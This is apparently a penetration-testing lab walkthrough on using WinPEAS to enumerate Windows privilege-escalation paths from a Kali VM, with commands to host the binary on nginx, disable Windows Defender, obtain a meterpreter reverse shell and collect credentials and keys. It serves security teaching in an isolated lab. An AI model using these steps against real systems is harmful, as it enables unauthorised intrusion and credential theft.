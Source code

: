 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use WinPEAS to enumerate for privilege escalation on a Windows target.

**Lab Purpose:**

WinPEAS is a script which will search for all possible paths to escalate privileges on Windows hosts.

**Lab Tool:**

Kali Linux and Windows

**Lab Topology:**

You can use Kali Linux in a VM and a Windows machine for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be looking at how to use WinPEAS to enumerate a Windows target for all possible privilege escalation opportunities. We will download  PEAS (Privilege Escalation Awesome Scripts) from the internet. First, make sure that your Kali VM is currently connected to a network that has access to the internet. Now, open a terminal screen and type the following command in a single line:

git clone [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)

![WinPEAS](attachements/WinPEAS.png)

This will download all the scripts and tools you need. For this lab, we will be focusing on WinPEAS, which is the script for enumerating on Windows targets.

Once downloaded, navigate to the directory containing the file winPEASx86.exe (or WinPEASx64.exe  if you are running a 64 bit version of Windows). You can locate this file by typing the following into a terminal (1):

![WinPEAS](attachements/WinPEAS-1.png)

find . -iname “winPEAS*.exe”

This will show you the exact location of the files. We want to use the Release option for this lab. Choose proper file for your installed Windows platform (32bit|64bit) and copy this file to nginx web server document root, which is ”/var/www/html”:

sudo cp ./privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe /var/www/html

Then, start the nginx web server. To do this, open a terminal screen and type the following command:

sudo nginx

We are doing this because we will later download this file from the target Windows machine, just as we will pull the payload file. In a real life scenario, this would be done using a phishing email or some other form of social engineering. For this lab, simply transfer the file to your Windows machine.

### Task 2:

We will need to establish a basic shell on the target. First, put Kali VM into same “Host-Only Network” with Windows target machine again to isolate attacks/scans from your real network.

Then, create a reverse shell payload using msfconsole, transfer this to the Windows target, establish a Metasploit listener and execute the payload. Refer to lab 82 for more info.

![msfconsole](attachements/msfconsole-1.png)

So, we now have a meterpreter shell on our target.

### Task 3:

Switch to the console of your Windows machine and open a browser. Download the winPEASx86.exe file from the Kali VM by typing the following URL in the address line:

http://192.168.56.103/winPEASx86.exe

Ensure that “Windows Defender, realtime scan” is turned off before try to download. Otherwise, this file might be considered suspicious by Windows and can be destroyed immediately.

![msfconsole](attachements/msfconsole.png)

Once on the Windows machine, we can easily execute the script. In Meterpreter, type the following to get a shell on our Windows machine:

shell

![Meterpreter](attachements/Meterpreter-9.png)

Once interacting with the cmd shell, we can execute the script by navigating to the directory where we saved the file and then typing the following:

winPEASx86.exe > results.txt

After running command, WinPEAS goes through the entire system looking for various privilege escalation methods available and write all output to a text file, results.txt.

WinPEAS will look for a massive amount of information to provide us with a comprehensive list of options with regards to privilege escalation. Some of the information gathered include connections open, open ports, listeners, SSH keys, windows credentials in the Windows Vault, and Credential manager, etc. Let’s look at the content of this file now. Type this command in the same shell:

type results.txt

![Meterpreter](attachements/Meterpreter-9.png)

WinPEAS colour-codes the information it provides us, with items in red indicating the strongest possibility of privilege escalation.

![Meterpreter](attachements/Meterpreter-8.png)